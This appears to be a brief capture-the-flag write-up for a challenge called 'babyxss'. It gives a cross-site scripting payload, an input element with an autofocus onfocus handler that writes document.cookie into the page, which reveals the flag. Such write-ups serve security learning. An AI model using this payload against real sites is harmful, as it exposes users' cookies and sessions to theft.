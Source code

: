 # Title
babyxss
# Tools
firefox or chrome
# Steps
* step 1 输入框输入<input onfocus="document.write(document.cookie)" autofocus>
* step 2 点击即可在图片中获得flag
